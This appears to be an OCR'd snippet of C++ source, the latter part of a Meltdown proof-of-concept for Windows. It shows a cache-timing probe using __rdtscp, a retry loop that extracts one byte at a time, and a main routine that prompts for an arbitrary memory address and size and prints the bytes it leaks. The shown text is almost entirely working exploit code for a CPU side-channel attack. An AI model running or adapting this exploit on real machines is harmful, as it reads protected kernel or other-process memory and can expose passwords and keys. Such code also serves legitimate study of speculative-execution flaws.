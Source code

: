 ```cpp
		uint64_t t1 = __rdtscp(&avx);
		uint8_t junk = ((byte*)arr)[i * PAGE_SIZE];
		//junk = rand() & 0xFF;  // A function to ensure that CPU won't run __rdtsc below out-of-order.
					 // Uncomment if you want to use __rdtsc()
		uint64_t t2 = __rdtscp(&avx) - t1;
		
		if (t2 < minTime) {
			minTime = t2;
			leak = i;
		}
	}

	if (minTime < 100) {
		return leak;
	}
	return 0xFFFF; // highest byte indicate error
}

uint8_t MeltdownExtractOne(uintptr_t addr, void* arr) {
	size_t tryed = 0;
	do {
		uint16_t leak = Probe(addr, arr);
		if (!(leak & 0xFF00)) { // No Error
			return leak;
		}
		tryed++;
		_mm_pause();
	} while (tryed <= 99999); // Zzzzzzzzz
	
	return 0;
}

int main() {
	uintptr_t addr;
	size_t size;
	uintptr_t junk;
	SetProcessAffinityMask(GetCurrentProcess(), 1);
	void* arr = malloc(PAGE_SIZE * 256);

	printf("Meltdown demo.\nEnter any address in hexadecimal to leak data : ");
	scanf_s("0x%p", &addr);
	printf("Size: ");
	scanf_s("%ul", &size);

	putchar('\n');
	for (size_t i = 0; i < size; i++) {
		unsigned int retn = MeltdownExtractOne(addr + i, arr);
		printf("%02X", retn);
	}

	free(arr);

	return 0;
}
```
